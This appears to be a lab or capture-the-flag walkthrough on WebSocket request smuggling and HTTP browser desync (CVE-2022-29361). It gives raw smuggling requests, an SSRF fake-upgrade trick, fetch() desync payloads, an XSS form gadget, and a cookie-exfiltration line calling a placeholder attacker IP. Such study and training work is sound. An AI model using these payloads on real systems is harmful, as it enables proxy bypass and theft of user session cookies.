1. The client sends a WebSocket upgrade request with an **invalid** version number.
2. The proxy forwards the request to the backend server.
3. The backend server responds with `426 Upgrade Required`. The connection doesn't upgrade, so the backend remains using HTTP instead of switching to a WebSocket connection.
4. The proxy doesn't check the server response and assumes the upgrade was successful. Any further communications will be tunnelled since the proxy believes they are part of an upgraded WebSocket connection.


It is important to note that this technique won't allow us to poison other users' backend connections. We will be limited to tunnelling requests through the proxy only, so we can bypass any restrictions imposed by the frontend proxy by using this trick.

**payload**

```http
GET /socket HTTP/1.1
Host: 10.10.148.18:8001
Sec-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.148.18:8001


```

To send the request, we will use Burp's Repeater. To ensure Burp doesn't modify our request and break the attack, we need to make sure the `Update Content-Length` setting is disabled:

**Note** that some proxies will not even require the existence of a WebSocket endpoint for this technique to work. All we need is to fool the proxy into believing we are establishing a connection to a WebSocket, even if this isn't true. Look at what happens if you try to send the following payload (be sure to add two newlines after the payload in Burp):


---

### Defeating Secure Proxies

<span style="font-size: 23px;">**Upgrading our Proxy**</span>

Nginx proxy will check responses before tunnelling requests through a WebSocket connection


Notice how Nginx won't leak the flag despite getting a `426` response for the initial WebSocket upgrade attempt. Since Nginx is checking the response code of the upgrade, it can determine that no valid WebSocket connection was established; therefore, it won't allow us to smuggle the `/flag` request.

<span style="font-size: 23px;">**Tricking the Proxy**</span>

Since we can't just smuggle requests anymore, we need to find a way to trick the proxy into believing a valid WebSocket connection has been established. This means we need to somehow force the backend web server to reply to our upgrade request with a fake `101 Switching Protocols` response without actually upgrading the connection in the backend.

While we won't be able to do this for all applications, if our target app has some vulnerability that allows us to proxy requests back to a server we control as attackers, we might be able to inject the `101 Switching Protocols` response to an arbitrary request. In these special cases, we should be able to smuggle requests through a fake WebSocket connection again.


<span style="font-size: 23px;">**payload**</span>

**Leveraging SSRF**

In this task's application, we will take advantage of an SSRF vulnerability to simulate a fake WebSocket upgrade. 

We can quickly set up a web server that responds with status 101 to every request with the following Python code:

[web server](../files/pythonfile.md#web-server)

```http
GET /check-url?server=http://10.10.11.86:5555 HTTP/1.1
Host: 10.10.148.18:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==


GET /flag HTTP/1.1
Host: 10.10.148.18:8002


```




Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.

---

### omt

If you are interested in taking a deeper look into the topic, be sure to check the original research on the subject done by Mikhail Egorov (0ang3el) at the following link: https://github.com/0ang3el/websocket-smuggle 

## HTTP Browser Desync

Desynchronizing the interpretation of requests within browsers adds a layer of complexity and opens up new possibilities for exploitation. This new technique necessitates only the desynchronization of the front-end server, impacting the victim's connection with their browser.

### HTTP features 

**HTTP Keep-Alive**

HTTP keep-alive is a mechanism that allows the reuse of a single [TCP](../common.md#tcp) connection for multiple HTTP requests and responses. It helps reduce latency and improve performance by avoiding the need to open and close connections repeatedly. However, it can introduce a security risk known as Cache Poisoning. If caching mechanisms are in place, the [persistence](../common.md#persistence) of connections through keep-alive could contribute to cache poisoning attacks. An attacker might exploit desynchronization issues to store malicious content in caches.


**HTTP Pipelining**

Usually, with HTTP, one request results in one response. If the HTTP pipelining is enabled in the backend server, it will allow the simultaneous sending of two requests with the corresponding responses without waiting for each response. The only way to differentiate between two requests and a big one is by using the `Content-Length` header, which specifies the length in bytes of each request. The content header is an unnecessary header for most static file contents in a web application, like images or icons, since the backend server will usually not consider it.


---

### HTTP Browser Desync

In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.


This attack occurs in two steps:

1. The initial request, appearing legitimate, is intended to disrupt the user 
request queue by introducing an arbitrary request. 
2. Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.
  
Take a look at this high-level representation of the attack:


In the diagram above, the client initiates a POST request utilizing the keep-alive feature, ensuring the connection remains persistent. This persistence allows for transmitting multiple requests within the same session. This POST request contains a hijack GET request within its body. If the web server is vulnerable, it mishandles the request body, leaving this hijack request in the connection queue. Next, when the client makes another request, the hijack GET request is added at the forefront, replacing the expected behavior.

In this scenario, attempting to access the redirect page automatically will show the output from the 404 page instead of the redirect one.

---

### HTTP Browser Desync Identification

For a better understanding of HTTP Browser Desynchronization, we will use a web application vulnerable to [CVE-2022-29361](https://nvd.nist.gov/vuln/detail/cve-2022-29361). The web app will serve a single route.

```python
from flask import Flask
app = Flask(__name__) @app.route("/", methods=["GET", "POST"]) def index(): return """ CVE-2022-29361 Welcome to the Vulnerable Web Application """ if __name__ == "__main__": app.run("0.0.0.0", 5000)
```
The web server impacted by this [CVE](../common.md#cve) is running Werkzeug v2.1.0, a versatile WSGI web application library. The crucial update in commit [4795b9a7](https://github.com/pallets/werkzeug/commit/4795b9a7) allows keep-alive connections when threaded or process options are configured.

To execute the attack, a straightforward approach is to utilize the `fetch` JavaScript function. This function allows for maintaining the connection ID across requests. The connection ID refers to a unique identifier assigned to a network connection between the client (browser) and the server. This identifier helps the server keep track of multiple connections and distinguish between them.

This consistent connection ID lies in its ability to facilitate exploitation for an attacker that could expose user information or session tokens such as cookies.

Moreover, in a cross-site attack, the browser shares user cookies based on how the `SameSite` flag is set (CORS), but this security rule doesn't apply if the current domain matches the remote one, as in Browser Desync attacks. In such cases, there's no restriction. 

You can hack your session by using the following payload from your browser command line.

```javascript
fetch('http://10.10.8.54:5000/', {
    method: 'POST',
    body: 'GET /redirect HTTP/1.1\r\nFoo: x',
    mode: 'cors',
})
```
1. `http://10.10.8.54:5000/` This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.
2. `{ method: 'POST' }` The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.
3. `{ body: 'GET /redirect HTTP/1.1\r\nFoo: x' }` In the body, there is the second request that is going to be injected into the queue.
4. `{ mode: 'cors' }` This flag triggers an error when visiting the 404 web page and avoids following the redirect.

---

### HTTP Browser Desync exploit chaining XSS

Based on the considerations outlined in previous tasks, one potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

Instead, we can use a rogue server to deliver an [XSS](../common.md#xss) attack to steal the cookie from the victim

We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

```html
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://attack-ip:1337 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding [MIME](../common.md#mime) type since we don't want to encode the second malicious request.

Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

To do so, we can set up a rogue server by serving a route with a malicious payload like `fetch('http://YOUR_IP/' + document.cookie);`

---

### Challenge

**payload**

1. utilizing the given payload and refreshing the page results in a 404 error page. This indicates that the web server is vulnerable to request smuggling browser desync.
```javascript
fetch('http://challenge.thm/', {
    method: 'POST',
    body: 'GET /redirect HTTP/1.1\r\nFoo: x',
    mode: 'cors',
})
```
2. observe that the contact page does not correctly sanitize text input, potentially allowing us to send an arbitrary payload.

`<script>alert("hello")</script>`

3. build our payload to redirect the victim user to fetch the second payload from our server:
```html
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://10.10.153.2:1337 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>

```
4. Finally, we will serve a payload on our controlled server to steal the user's cookie and send it to us.

[steal cookie server](../files/pythonfile.md#steal-cookie-server)

